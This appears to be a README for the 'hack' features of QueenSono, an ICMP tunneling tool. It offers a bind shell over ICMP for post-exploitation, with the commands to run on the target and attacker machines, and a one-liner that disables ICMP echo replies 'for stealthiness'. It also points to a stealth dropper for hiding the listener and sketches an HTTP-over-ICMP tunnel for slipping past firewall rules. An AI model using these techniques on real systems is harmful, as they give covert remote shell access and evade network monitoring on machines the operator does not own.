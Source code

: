 # Hack

Some fun things using `QueenSono`

* Bind shell
* Http over ICMP tunneling
  * For a much more sophisticated ICMP tunneling solution see [icmptunnel](https://github.com/DhavalKapil/icmptunnel)

<sup>
for stealthiness you could prevent the kernel to reply to any ICMP pings

<pre><code>echo 1 | dd of=/proc/sys/net/ipv4/icmp_echo_ignore_all</code></pre>
</sup>

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bindshell.gif)
On both machines you need to have `qssender`and `qsreceiver`

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [curlNExec](https://github.com/ariary/curlNexec) repo. Should I adapt it to use ICMP ? 🤔*

## HTTP over ICMP tunneling

🚧🚧🚧🚧**WIP**🚧🚧🚧🚧

<h5 align="center">In <code>QueenSono/hack/tunneling</code></h5>

<p align="center"><i> Access internet by tunneling HTTP request with ICMP</i></p>

### Use case
* Access internet but firewall rules block http traffic but allow icmp 
* If you want to hide your http tracks 

#### How to do it?
```
need cap_net_raw cap         need internet access

        ┌───────────┐         ┌───────────────┐           ┌────────────┐
        │           │    1    │               │    2      │            │
        │  qscurl   └─────────►    qsproxy    └───────────►World  wide │
        │           ◄─────────┐               ◄───────────┐    web     │
        └───────────┘    4    └───────────────┘     3     │            │
                                                          └────────────┘
```

